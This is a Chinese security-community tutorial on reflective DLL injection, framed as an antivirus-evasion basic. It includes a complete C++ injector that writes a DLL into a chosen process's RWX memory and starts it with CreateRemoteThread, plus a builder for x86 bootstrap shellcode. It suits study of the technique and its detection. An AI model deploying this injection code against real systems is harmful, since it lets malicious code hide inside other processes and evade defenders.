# 免杀基础-RDI-先知社区

> **来源**: https://xz.aliyun.com/news/17290  
> **文章ID**: 17290

---

RDI(Reflective DLL Injection)反射dll注入 在远程进程中加载dll而不依赖loadlibrary

<https://github.com/stephenfewer/ReflectiveDLLInjection> 这是一个经典项目

具体的加载流程如下

1. 写入dll到目标进程内存
2. 执行dll的导出函数 进行load dll

这里的load dll就是之前PEloader那一套东西

# 什么是反射型dll

反射型dll是一类特殊的dll 能够自行完成加载并在目标进程内存中执行

与常规dll不同 反射型dll的导出函数通常只有一个 用来加载自身 这个函数必须是位置无关的(因为此时dll没有加载)

该导出函数需要做如下事情

1. 拉伸pe
2. 修复重定位
3. 修复导入表
4. 设置合适的内存权限
5. 执行DllMain

# 创建反射dll

由于需要位置无关的代码 我们需要像开发通用shellcode那样 手动从PEB中解析链表 获取Kernel32.dll的LoadlibraryGetProcAddress的地址 从而动态调用WinAPI

## 获取Loadlibrary GetProcAddress



解析PEB 通过比较hash获取指定模块地址



解析kernel32.dll和ntdll.dll的导入表 获取所需的几个函数

LoadLibraryAGetProcAddress

借助这两个函数就可以获取WinAPI了

接下来执行修复重定位表导入表等操作

## 修复

PE拉伸



导入表修复





重定位表修复





## 构建导出函数

该函数需要做以下事情

1. 动态获取所需WinAPI
2. 申请一块足够的空间存储反射DLL
3. 拉伸 修复重定位表 导入表 设置权限

RtlAddFunctionTable 在该项目中没有获取

如果dll有异常相关的需求 则需要获取该API修复异常表 而NtFlushInstructionCache则是用于清空指定代码区域的执行缓存

RDI不像传统loadlibrary那样运行 不存在死锁问题 dllMain里面什么都可以写



可以看见项目提供了两种获取dllbase的途径 一种是创建远程线程的时候参数直接从lpParameter传进来

另外一种则是从从栈中获取caller的地址 反向遍历搜到IMAGE\_DOS\_SIGNATURE





# Injector

向目标进程中申请内存 写入dll 找到导出函数并执行

```
#include <iostream>
 #include <Windows.h>
 
 DWORD RVAToOffset(DWORD RVA,LPVOID base) {
     PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)base;
     PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)base + pDosHeader->e_lfanew);
 
     PIMAGE_SECTION_HEADER pSections = IMAGE_FIRST_SECTION(pNtHeaders);
     for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++) {
         if (RVA >= pSections[i].VirtualAddress && RVA < pSections[i + 1].VirtualAddress) {
         
             return (RVA - pSections[i].VirtualAddress) + pSections[i].PointerToRawData;
 
         }
     
     }
     return NULL;
 }
 
 LPVOID getInitFuncAddr(LPVOID base) {
     PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)base;
     PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)base + pDosHeader->e_lfanew);
 
     PIMAGE_EXPORT_DIRECTORY pExportDir = (PIMAGE_EXPORT_DIRECTORY)((DWORD_PTR)base + RVAToOffset(pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress, base));
     PDWORD funcNameArray = (PDWORD)((DWORD_PTR)base + RVAToOffset(pExportDir->AddressOfNames, base));
     PDWORD funcAddressArray = (PDWORD)((DWORD_PTR)base + RVAToOffset(pExportDir->AddressOfFunctions, base));
     PWORD funcOrdinalArray = (PWORD)((DWORD_PTR)base + RVAToOffset(pExportDir->AddressOfNameOrdinals, base));
     for (int i = 0; i < pExportDir->NumberOfFunctions; i++) {
         PCHAR name = (PCHAR)((DWORD_PTR)base + RVAToOffset(funcNameArray[i], base));
         
         if (_stricmp(name, "ReflectiveLoader") == 0) {
             return (LPVOID)RVAToOffset(funcAddressArray[funcOrdinalArray[i]], base);
         }
     }
     return NULL;
 
 }
 
 int main(int argc ,char* argv[]) {
     if (argc < 2) {
         std::cerr << "Usage: " << argv[0] << " <PID>" << std::endl;
         return 1;
     }
     
     DWORD pid = (DWORD)(strtoul(argv[1], nullptr, 10));
 
 
     HANDLE hFile = CreateFileA("D:\Desktop\RDI\ReflectiveDLLInjection\x64\Release\reflective_dll.x64.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
     if (hFile == INVALID_HANDLE_VALUE) {
         return 1;
     }
     DWORD fileSize = GetFileSize(hFile, NULL);
     
     DWORD bytesRead = 0;
     LPVOID fileBuf = VirtualAlloc(0, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
     ReadFile(hFile, fileBuf, fileSize, &bytesRead, NULL);
 
     LPVOID ReflectiveFunction = getInitFuncAddr(fileBuf);
 
     HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
     LPVOID lpMem = VirtualAllocEx(hProcess, NULL, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     SIZE_T bytesWritten = 0; 
     WriteProcessMemory(hProcess, lpMem, fileBuf, fileSize, &bytesWritten);
 
 
     DWORD tid = 0;
     LPVOID targetAddr = (LPVOID)((DWORD_PTR)ReflectiveFunction + (DWORD_PTR)lpMem);
     HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)targetAddr, NULL, NULL, &tid);
 
     return 0;
 
 
 }
```



# 改进

<https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html>

相较于传统RDI多做了以下事情

复制参数到DLL后的内存中 备用

创建引导shellcode 使得能带参数调用ReflectiveLoader

DWORD WINAPI ReflectiveLoader( LPVOID lpParameter, LPVOID lpLibraryAddress, DWORD dwFunctionHash, LPVOID lpUserData, DWORD nUserdataLen );



额外的空间用于存放参数及引导shellcode

```
BYTE bootstrap[64] = { 0 };
 DWORD i = 0;
 /*
 Shellcode pseudo-code:
 DWORD r = ReflectiveLoader(lpParameter, lpLibraryAddress, dwFunctionHash, lpUserData, nUserdataLen);
 ExitThread(r);
 */
 
 // push <size of userdata>
 bootstrap[i++] = 0x68; // PUSH (word/dword)
 MoveMemory(bootstrap + i, &nUserdataLen, sizeof(nUserdataLen));
 i += sizeof(nUserdataLen);
 
 // push <address of userdata>
 bootstrap[i++] = 0x68; // PUSH (word/dword)
 MoveMemory(bootstrap + i, &userdataAddr, sizeof(userdataAddr));
 i += sizeof(userdataAddr);
 
 // push <hash of function>
 bootstrap[i++] = 0x68; // PUSH (word/dword)
 MoveMemory(bootstrap + i, &dwFunctionHash, sizeof(dwFunctionHash));
 i += sizeof(dwFunctionHash);
 
 // push <address of image base>
 bootstrap[i++] = 0x68; // PUSH (word/dword)
 MoveMemory(bootstrap + i, &lpRemoteLibraryBuffer, sizeof(lpRemoteLibraryBuffer));
 i += sizeof(lpRemoteLibraryBuffer);
 
 // push <lpParameter>
 bootstrap[i++] = 0x68; // PUSH (word/dword)
 MoveMemory(bootstrap + i, &lpParameter, sizeof(lpParameter));
 i += sizeof(lpParameter);
 
 // mov eax, <address of reflective loader>
 bootstrap[i++] = 0xB8; // MOV EAX (word/dword)
 MoveMemory(bootstrap + i, &uiReflectiveLoaderAddr, sizeof(uiReflectiveLoaderAddr));
 i += sizeof(uiReflectiveLoaderAddr);
 
 // call eax
 bootstrap[i++] = 0xFF; // CALL
 bootstrap[i++] = 0xD0; // EAX
 
 // Push eax (return code from ReflectiveLoader) (WINAPI/__stdcall)
 bootstrap[i++] = 0x50; // PUSH EAX
 
 // mov eax, <value of exitthread>
 bootstrap[i++] = 0xB8; // MOV EAX (word/dword)
 MoveMemory(bootstrap + i, &exitthread, sizeof(exitthread));
 i += sizeof(exitthread);
 
 // call eax
 bootstrap[i++] = 0xFF; // CALL
 bootstrap[i++] = 0xD0; // EAX
```

x86的shellcode很简单 以此压栈传入参数调用ReflectiveLoader并执行exitThread

x64类似 不过要额外分配0x20的空间给影子空间



